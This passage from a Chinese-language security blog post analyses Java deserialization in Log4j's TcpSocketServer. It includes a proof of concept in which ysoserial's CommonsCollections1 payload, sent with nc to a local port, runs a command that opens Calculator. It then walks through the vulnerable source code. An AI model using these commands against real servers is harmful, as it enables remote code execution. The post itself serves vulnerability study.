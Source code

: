 ```
        } catch(IOException e){
            e.printStackTrace();
        }
        myServer.run();
    }
}
```

把Log.java运行起来

用ysoserial和nc打PoC

```
$ java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections1 "open /System/Applications/Calculator.app" > test.txt
$ cat test.txt | nc 127.0.0.1 8888
```

看，弹了个计算器

![2-1](https://milkfr.github.io/assets/images/posts/2020-01-01-analysis-java-deserialize-log4j/2-1.png)

#### 触发流程分析
这个流程比上面那个稍微复杂一些，找实现接口的实际实现类动用了一下祖传单步调试，其他都看代码就明白了

```
public class TcpSocketServer<T extends InputStream> extends AbstractSocketServer<T> {
    // 省略一些代码
    public void run() {
        EntryMessage entry = this.logger.traceEntry();

        while(this.isActive()) {
            if (this.serverSocket.isClosed()) {
                return;
            }

            try {
                this.logger.debug("Listening for a connection {}...", this.serverSocket);
                Socket clientSocket = this.serverSocket.accept();
                this.logger.debug("Acepted connection on {}...", this.serverSocket);
                this.logger.debug("Socket accepted: {}", clientSocket);
                clientSocket.setSoLinger(true, 0);
                TcpSocketServer<T>.SocketHandler handler = new TcpSocketServer.SocketHandler(clientSocket);
                this.handlers.put(handler.getId(), handler);
                handler.start();
            } catch (IOException var7) {
                if (this.serverSocket.isClosed()) {
                    this.logger.traceExit(entry);
                    return;
                }

                this.logger.error("Exception encountered on accept. Ignoring. Stack trace :", var7);
            }
        }
        // 省略一些代码
    }

    private class SocketHandler extends Log4jThread {
        // 省略一些代码
        public SocketHandler(Socket socket) throws IOException {
            this.inputStream = TcpSocketServer.this.logEventInput.wrapStream(socket.getInputStream());
        }
        public void run() {
```